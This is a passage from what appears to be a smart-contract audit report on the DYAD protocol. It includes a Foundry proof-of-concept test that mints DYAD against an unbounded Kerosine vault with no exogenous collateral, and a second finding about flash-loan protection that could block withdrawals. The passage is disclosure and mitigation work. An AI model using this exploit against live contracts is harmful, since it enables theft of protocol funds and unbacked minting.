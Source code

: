```solidity

  function test_minting_dyad_against_kerosene_only() public {
    // Funding the exogenous vaults with some amount so TVL is greater than DYAD total supply
    deal(address(MAINNET_WETH), address(ethVault), 5 ether);
    deal(address(MAINNET_WSTETH), address(wstEthVault), Dyad(MAINNET_DYAD).totalSupply());
    
    deal(MAINNET_KEROSENE, alice, 1 ether);

    vm.startPrank(alice);

    // The root of vulnerability: Adding unbounded kerosine vault as exogenous vault
    vaultManagerV2.add(aliceDNFT, address(unboundedKerosineVault)); 
    Kerosine(MAINNET_KEROSENE).approve(address(vaultManagerV2), 1 ether);
    vaultManagerV2.deposit(aliceDNFT, address(unboundedKerosineVault), 1 ether);

    // Minting dyad against the unbounded kerosene only. No exogenous token is deposited!
    vaultManagerV2.mintDyad(aliceDNFT, 1 ether, alice);

    uint mintedDyad = Dyad(vaultManagerV2.dyad()).mintedDyad(address(vaultManagerV2), aliceDNFT);
    assertEq(1 ether, mintedDyad);
  }
}
```
```bash
forge test --mt test_minting_dyad_against_kerosene_only

[PASS] test_minting_dyad_against_kerosene_only() (gas: 774511)
```
## Tools used
Manual review
## Recommended Mitigation Steps
Consider adding a check to verify if the provided vault in `add` function is really an exogenous vault or not. A separate contract that **only keeps track of exogenous vaults** must be used to make the check

# H-02 Current flash loan protection implementation may allow malicious actors to DoS withdraw/redeemDyad operations on `VaultManagerV2`
In [VaultManagerV2::withdraw](https://github.com/code-423n4/2024-04-dyad/blob/4a987e536576139793a1c04690336d06c93fca90/src/core/VaultManagerV2.sol#L134-L143), there is a protection from flash loans by checking if there's an already deposit by the dNFT id on the same block:
```solidity
function withdraw(
    uint    id,
    address vault,
    uint    amount,
    address to
) 
    public
    isDNftOwner(id)
{
    if (idToBlockOfLastDeposit[id] == block.number) revert DepositedInSameBlock();
    // rest of the code
  }
```
The `idToBlockOfLastDeposit` is updated when a [deposit](https://github.com/code-423n4/2024-04-dyad/blob/4a987e536576139793a1c04690336d06c93fca90/src/core/VaultManagerV2.sol#L119-L131) is made:
```solidity
function deposit(
    uint    id,
    address vault,
```